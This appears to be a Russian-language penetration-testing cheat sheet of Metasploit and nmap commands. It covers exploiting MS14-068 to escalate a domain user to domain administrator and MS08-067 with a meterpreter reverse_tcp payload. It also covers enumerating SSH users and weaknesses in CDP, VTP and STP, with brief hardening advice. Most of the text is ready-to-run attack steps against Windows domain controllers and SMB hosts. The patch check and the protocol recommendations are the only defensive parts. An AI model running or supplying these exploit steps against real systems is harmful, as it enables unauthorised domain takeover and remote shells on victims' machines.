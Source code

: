 # Уязвимость MS14-068 (CVE-2014-6324) (CVE-2014-6324 (MS14-068) — это критическая уязвимость в протоколе Kerberos в Microsoft Windows, которая позволяет повысить привилегии обычного пользователя домена до уровня доменного администратора. Уязвимость существует в реализации проверки подписи PAC (Privilege Attribute Certificate) в билетах Kerberos)

	use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
	set RHOST <DC_IP>
	set USERNAME <user>
	set PASSWORD <password>
	set DOMAIN <domain.com>
	run

	systeminfo | find "KB3011780" (проверить обновление)

# Уязвимость MS08-067
	nmap --script smb-vuln-ms08-067 -p445 <целевой IP-адрес>		(но может завалить систему)

	msfconsole
	search ms08-067 checker или search ms08-067 scanner				(просто проверить на наличие уязвимости)
	
	search ms08-067
	use exploit/windows/smb/ms08_067_netapi
	show options
	set Rhosts
	set PAYLOAD windows/meterpreter/reverse_tcp
	exploit
	
# Недостатки канального уровня (sudo yersinia -I)
	При исследовании сетевого трафика были выявлены сетевые пакеты инфраструктурных протоколов CDP, VTP и STP. Данные протоколы имеют ряд недостатков. Протокол CDP раскрывает информацию о сетевом оборудовании, сетевых адресах и имени маршрутизатора
	Для протокола STP рекомендуется включить механизм BPDUFilter, который выполняет блокировку входящих BPDU-пакетов без выключения порта.
	Для протокола VTP рекомендуется использовать протокол VTPv3.
	
# Перебор пользователей через ssh
	scanner/ssh/ssh_enumusers
